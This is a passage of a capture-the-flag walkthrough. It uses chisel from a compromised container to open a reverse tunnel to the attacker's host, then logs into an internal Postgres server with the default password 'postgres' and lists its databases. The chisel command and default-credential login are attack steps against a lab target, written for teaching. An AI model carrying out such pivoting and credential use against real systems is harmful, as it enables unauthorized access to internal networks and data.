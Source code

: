 ```

/tmp # ./chisel_1.8.1_linux_amd64 client 10.10.14.6:8000 R:5432:172.22.0.1:5432

```

And there’s a connection at the server:

```

2023/03/01 15:30:59 server: session#1: tun: proxy#R:5432=>172.22.0.1:5432: Listening

```

If there’s no connection, check that the server isn’t already listening on 5432. My Ubuntu image was, and I had to `sudo service postgresql stop` to free that port (or I could have used another port).

#### Connect to Database

I’ll use `psql` as the Postgres client to access the database, with the following options:
- `-h 127.0.0.1` - use my host (which has the tunnel to the container) as the host
- `-p 5432` - the port for the listening tunnel
- `-U postgres` - the username to connect as

I’ll enter “postgres” when prompted for the password, and it connects:

```

oxdf@hacky$ psql -h 127.0.0.1 -p 5432 -U postgres
Password for user postgres: 
psql (14.6 (Ubuntu 14.6-0ubuntu0.22.04.1), server 13.7 (Debian 13.7-1.pgdg110+1))
Type "help" for help.

postgres=#

```

#### Enumerate Database

The DB has four databases:

```

postgres=# \list
                                    List of databases
      Name       |  Owner   | Encoding |  Collate   |   Ctype    |   Access privileges   
-----------------+----------+----------+------------+------------+-----------------------
 mentorquotes_db | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 postgres        | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 template0       | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
                 |          |          |            |            | postgres=CTc/postgres
 template1       | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
                 |          |          |            |            | postgres=CTc/postgres
(4 rows)

```

